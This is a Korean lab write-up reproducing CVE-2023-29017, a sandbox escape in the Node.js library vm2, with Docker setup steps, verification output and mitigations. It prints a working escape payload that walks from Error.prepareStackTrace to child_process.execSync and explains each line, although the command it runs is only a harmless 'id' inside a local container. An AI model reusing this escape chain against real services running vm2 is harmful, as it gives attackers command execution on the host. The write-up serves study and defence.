




# CVE-2023-29017 | vm2 Sandbox Escape를 통한 원격 코드 실행

> [WHS 4기 31반] - 김건우(@gunwoo105)
> github 사용이 미숙해 md변환기 사용했습니다.

## 취약점 요약

vm2는 신뢰할 수 없는 JavaScript를 제한된 환경에서 실행하기 위한 Node.js 샌드박스 라이브러리입니다. 정상적인 경우 샌드박스 내부의 코드는 Node.js의 `process, require, child_process` 및 호스트 파일시스템과 같은 민감한 기능에 접근할 수 없어야 합니다.

그러나 vm2 3.9.14 이하에서는 처리되지 않은 비동기 오류가 발생할 때 Error.prepareStackTrace로 전달되는 호스트 객체를 안전하게 처리하지 못합니다. 공격자는 이 객체의 생성자 체인을 악용하여 호스트 컨텍스트의 Function 생성자와 `process` 객체를 획득하고, 최종적으로 `child_process`를 통해 운영체제 명령을 실행할 수 있습니다.

## 환경 구성

### 구성 요소

| 구성 요소 | 버전 및 설정 |
| --- | --- |
| Node.js | `18.15.0` |
| vm2 | `3.9.14` |
| 패치 버전 | `3.9.15` |
| 실행 환경 | Docker Compose |
| 컨테이너 사용자 | `node` |
| 서비스 포트 | `127.0.0.1:3000` |
| 패키지 설치 | `npm ci` + `package-lock.json` |

취약한 완제품 이미지를 사용하지 않고, 공식 Node.js 베이스 이미지와 저장소에 포함된 소스 코드로 이미지를 직접 빌드합니다. Dockerfile에서는 Node.js와 vm2 버전을 검사하며, 버전이 예상과 다르면 빌드가 실패합니다.

```docker
RUN test "$(node --version)" = "v18.15.0" \
    && test "$(node -p "require('vm2/package.json').version")" = "3.9.14"
```

| 파일 | 역할 |
| --- | --- |
| `docker-compose.yml` | 취약 서비스와 PoC 컨테이너 구성 및 실행 순서 정의 |
| `Dockerfile` | 취약 서비스와 PoC 이미지를 multi-stage 방식으로 빌드 |
| `vulnerable/src/server.js` | `/health`, `/execute`, `/evidence` 엔드포인트 제공 |
| `vulnerable/src/worker.js` | 사용자 입력을 별도 프로세스의 vm2에서 실행 |
| `poc/poc.js` | 버전 확인, 정상 대조군, 공격 및 증거 확인 자동화 |
| `vulnerable/package-lock.json` | 전이 의존성을 포함한 패키지 버전 고정 |

`worker.js`를 별도 프로세스로 실행하는 이유는 PoC가 처리되지 않은 비동기 오류를 발생시키기 때문입니다. 공격 과정에서 worker가 종료되더라도 웹 서버는 계속 실행되며, marker 파일로 성공 여부를 안정적으로 검증할 수 있습니다.

## 취약 조건

다음 조건이 모두 충족되어야 합니다.

1. 애플리케이션이 `vm2 3.9.14` 이하를 사용합니다.
2. 공격자가 실행할 JavaScript 입력을 제어할 수 있습니다.
3. 해당 JavaScript가 vm2 내부에서 실행됩니다.
4. 비동기 JavaScript 실행이 허용됩니다.
5. 처리되지 않은 비동기 오류가 취약한 stack trace 처리 경로에 도달합니다.
6. vm2를 실행하는 Node.js 프로세스에 운영체제 명령 실행 또는 파일 접근 권한이 있습니다.

vm2를 설치한 모든 서비스가 자동으로 원격 공격에 노출되는 것은 아닙니다. 공격자가 제어한 코드를 vm2에서 실행하는 기능이 존재해야 합니다. 이 실습의 `/execute` 엔드포인트는 해당 사용 사례를 최소한으로 구현한 것입니다.

공격 흐름은 다음과 같습니다.

```
악성 JavaScript 전달
        │
        ▼
처리되지 않은 비동기 오류 발생
        │
        ▼
Error.prepareStackTrace 호출
        │
        ▼
호스트 frames 객체 노출
        │
        ▼
호스트 Function 생성자 획득
        │
        ▼
process → require → child_process
        │
        ▼
컨테이너 내부 OS 명령 실행
```

## 재현 절차

### 이미지 빌드

```bash
docker compose build --no-cache
```



### 취약 서비스 실행

```bash
docker compose up -d vulnerable
```

컨테이너 상태를 확인합니다.

```bash
docker compose ps
```

### 서비스 상태 및 버전 확인

```bash
curl -sS \
  -w '\nHTTP_STATUS=%{http_code}\n' \
  <http://127.0.0.1:3000/health>
```



### PoC 실행

```bash
docker compose run --rm poc
echo "exit_code=$?"
```

PoC는 다음 항목을 자동으로 검증합니다.

1. 취약 서비스의 healthcheck
2. Node.js와 vm2 버전
3. 정상 JavaScript 21 * 2 실행
4. 정상 코드에서는 marker 파일이 생성되지 않는지 확인
5. CVE-2023-29017 payload 전달
6. `/tmp/vm2-pwned` 생성 여부 확인
7. 파일 내용에 `uid=`가 포함되는지 확인
8. 성공 시 종료 코드 0, 실패 시 종료 코드 1 반환

빌드부터 PoC까지 한 번에 실행하려면 다음 명령을 사용합니다.

```bash
docker compose up \
  --build \
  --abort-on-container-exit \
  --exit-code-from poc
```

### 증거 파일 확인

```bash
docker compose exec vulnerable sh -c '
  echo "[Marker file]"
  ls -l /tmp/vm2-pwned
  echo
  echo "[Command output]"
  cat /tmp/vm2-pwned
'
```

### 환경 종료

```bash
docker compose down -v --rmi local --remove-orphans
```

## 5. PoC 코드

전체 PoC는 `poc/poc.js`에 포함되어 있습니다. 핵심 payload는 다음과 같습니다.

```jsx
Error.prepareStackTrace = (error, frames) => {
  const hostProcess =
    frames.constructor.constructor('return process')();

  hostProcess.mainModule
    .require('child_process')
    .execSync('id > /tmp/vm2-pwned');
};

(async () => {}).constructor('return process')();
```

### 코드 동작

#### `Error.prepareStackTrace` 재정의

```jsx
Error.prepareStackTrace = (error, frames) => {
```

오류 stack trace가 생성될 때 실행되는 함수를 공격자가 재정의합니다.

#### 호스트 `Function` 생성자 획득

```jsx
frames.constructor.constructor
```

취약한 vm2가 노출한 호스트 `frames` 객체의 생성자 체인을 따라가 호스트 컨텍스트의 `Function` 생성자에 접근합니다.

#### 호스트 `process` 객체 획득

```jsx
frames.constructor.constructor('return process')();
```

호스트 컨텍스트에서 `process`를 반환하는 함수를 생성하고 실행합니다.

#### 운영체제 명령 실행

```jsx
hostProcess.mainModule
  .require('child_process')
  .execSync('id > /tmp/vm2-pwned');
```

샌드박스 내부에는 제공되지 않은 `child_process`를 불러와 Linux `id` 명령을 실행합니다.

#### 처리되지 않은 비동기 오류 유도

```jsx
(async () => {}).constructor('return process')();
```

샌드박스에서 사용할 수 없는 `process`를 비동기 함수가 참조하도록 하여 rejected Promise를 만들고, 취약한 stack trace 처리 경로에 도달시킵니다.

## 실행 결과

### 정상 대조군

정상 JavaScript는 vm2 내부에서 실행되어 42를 반환하지만, 운영체제 명령 실행 증거는 생성하지 않습니다.

```
[2/4] Running benign JavaScript inside vm2
      Normal JavaScript returned 42 without host command execution
```

### 취약점 악용

악성 payload를 전달하면 vm2 샌드박스를 탈출하고, 취약한 Node.js 프로세스 권한으로 컨테이너 내부에서 `id` 명령이 실행됩니다.

```
[3/4] Sending CVE-2023-29017 payload
      Host command output: uid=1000(node) gid=1000(node) groups=1000(node)
```

PoC는 저장된 증거를 다시 확인한 뒤 성공 상태를 반환합니다.

```
[4/4] Confirming persisted evidence
[SUCCESS] CVE-2023-29017 reproduced: vm2 sandbox escape led to host command execution.
exit_code=0
```



증거 파일을 직접 확인하면 다음과 같은 결과가 출력됩니다.



marker 파일은 각 실행 전에 삭제되며, 정상 코드 실행 단계에서는 생성되지 않습니다. 따라서 이전 실행 결과가 남아 발생하는 오탐을 방지합니다.

## 대응 방안

### vm2 업데이트

영향을 받지 않는 버전으로 업데이트합니다.

```json
{
  "dependencies": {
    "vm2": "3.9.15"
  }
}
```

그 후 lockfile을 갱신하고 고정된 의존성으로 설치합니다.

```bash
npm install --package-lock-only
npm ci
```

공식 Advisory는 별도의 workaround가 없다고 설명하므로, 취약 버전을 계속 사용하는 것은 권장되지 않습니다.

### 신뢰할 수 없는 코드의 실행 환경 분리

신뢰할 수 없는 코드를 애플리케이션과 동일한 Node.js 프로세스에서 실행하지 않습니다. 별도의 프로세스, 컨테이너 또는 가상머신으로 격리하고 실행이 끝나면 환경을 폐기합니다.

### 최소 권한 적용

- root가 아닌 전용 사용자로 실행
- `no-new-privileges` 적용
- 불필요한 Linux capability 제거
- Docker socket과 호스트 디렉터리 마운트 금지
- 파일시스템 읽기 전용 설정 검토
- 컨테이너 내부에 장기 자격 증명 저장 금지

### 네트워크 및 자원 제한

- 실행 컨테이너의 외부 네트워크 접근 제한
- 내부 관리망 및 데이터베이스 접근 최소화
- CPU, 메모리, 프로세스 수와 실행 시간 제한
- 입력 크기와 요청 빈도 제한
- 비정상 종료와 반복적인 악성 입력 모니터링

### 인증 및 입력 통제

코드 실행 기능에는 강한 인증과 인가를 적용하고, 불특정 사용자에게 공개된 임의 코드 실행 API를 운영하지 않습니다. 다만 인증은 공격 표면을 줄이는 보조 조치이며, 취약점 자체를 수정하는 대체 수단은 아닙니다.